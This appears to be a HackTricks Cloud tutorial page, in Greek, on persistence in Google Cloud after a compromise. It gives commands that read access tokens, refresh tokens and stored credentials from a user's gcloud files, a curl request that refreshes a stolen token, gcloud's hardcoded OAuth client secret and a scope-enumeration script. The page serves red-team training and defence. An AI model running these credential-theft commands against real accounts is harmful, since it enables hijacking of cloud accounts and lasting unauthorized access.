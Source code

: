 # GCP - Non-svc Persistance

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Αυτές είναι χρήσιμες τεχνικές μόλις, με κάποιο τρόπο, έχετε παραβιάσει κάποια διαπιστευτήρια GCP ή μηχανή που εκτελείται σε περιβάλλον GCP.

## Token Hijacking

### Authenticated User Tokens

Για να αποκτήσετε το **τρέχον token** ενός χρήστη μπορείτε να εκτελέσετε:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Δείτε σε αυτή τη σελίδα πώς να **χρησιμοποιήσετε απευθείας αυτό το token χρησιμοποιώντας gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Για να αποκτήσετε τις λεπτομέρειες για **να δημιουργήσετε ένα νέο access token** εκτελέστε:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Είναι επίσης δυνατό να βρείτε refresh tokens στο **`$HOME/.config/gcloud/application_default_credentials.json`** και στο **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Για να αποκτήσετε ένα νέο ανανεωμένο access token με το **refresh token**, το client ID και το client secret, εκτελέστε:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Η διάρκεια ισχύος των refresh tokens μπορεί να διαχειριστεί στο **Admin** > **Security** > **Google Cloud session control**, και από προεπιλογή είναι 16 ώρες αν και μπορεί να ρυθμιστεί να μην λήξει ποτέ:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

Η ροή αυθεντικοποίησης όταν χρησιμοποιείτε κάτι όπως το `gcloud auth login` θα ανοίξει ένα παράθυρο στο πρόγραμμα περιήγησης και μετά την αποδοχή όλων των scopes, το πρόγραμμα περιήγησης θα στείλει ένα αίτημα όπως αυτό στην ανοιχτή θύρα http από το εργαλείο:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Τότε, το gcloud θα χρησιμοποιήσει την κατάσταση και τον κώδικα με ένα σκληρά κωδικοποιημένο `client_id` (`32555940559.apps.googleusercontent.com`) και **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) για να αποκτήσει τα **τελικά δεδομένα ανανέωσης κωδικού**.

{% hint style="danger" %}
Σημειώστε ότι η επικοινωνία με το localhost είναι σε HTTP, οπότε είναι δυνατό να παγιδευτούν τα δεδομένα για να αποκτηθεί ένα refresh token, ωστόσο αυτά τα δεδομένα είναι έγκυρα μόνο 1 φορά, οπότε αυτό θα ήταν άχρηστο, είναι πιο εύκολο να διαβάσετε το refresh token από το αρχείο.
{% endhint %}

### OAuth Scopes

Μπορείτε να βρείτε όλους τους Google scopes στο [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ή να τους αποκτήσετε εκτελώντας:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Είναι δυνατόν να δείτε ποιες περιοχές υποστηρίζει η εφαρμογή που χρησιμοποιεί το **`gcloud`** για την αυθεντικοποίηση με αυτό το σενάριο:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Μετά την εκτέλεση του, ελέγχθηκε ότι αυτή η εφαρμογή υποστηρίζει αυτές τις περιοχές:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
είναι ενδιαφέρον να δούμε πώς αυτή η εφαρμογή υποστηρίζει το **`drive`** scope, το οποίο θα μπορούσε να επιτρέψει σε έναν χρήστη να κλιμακώσει από το GCP στο Workspace αν ένας επιτιθέμενος καταφέρει να αναγκάσει τον χρήστη να δημιουργήσει ένα token με αυτό το scope.

**Δείτε πώς να** [**καταχραστείτε αυτό εδώ**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Λογαριασμοί Υπηρεσιών

Ακριβώς όπως με τους αυθεντικοποιημένους χρήστες, αν καταφέρετε να **συμβιβάσετε το ιδιωτικό αρχείο κλειδιού** ενός λογαριασμού υπηρεσίας θα μπορείτε να **έχετε πρόσβαση σε αυτό συνήθως όσο θέλετε**.\
Ωστόσο, αν κλέψετε το **OAuth token** ενός λογαριασμού υπηρεσίας αυτό μπορεί να είναι ακόμη πιο ενδιαφέρον, γιατί, ακόμη και αν από προεπιλογή αυτά τα tokens είναι χρήσιμα μόνο για μία ώρα, αν ο **θύμα διαγράψει το ιδιωτικό api key, το OAuh token θα παραμείνει έγκυρο μέχρι να λήξει**.

### Μεταδεδομένα

Προφανώς, όσο βρίσκεστε μέσα σε μια μηχανή που τρέχει στο περιβάλλον GCP θα μπορείτε να **έχετε πρόσβαση στον λογαριασμό υπηρεσίας που είναι συνδεδεμένος σε αυτή τη μηχανή επικοινωνώντας με το endpoint μεταδεδομένων** (σημειώστε ότι τα Oauth tokens που μπορείτε να αποκτήσετε σε αυτό το endpoint είναι συνήθως περιορισμένα από scopes).

### Αντιμετώπιση

Ορισμένες αντιμετωπίσεις για αυτές τις τεχνικές εξηγούνται στο [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Αναφορές

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Δείτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
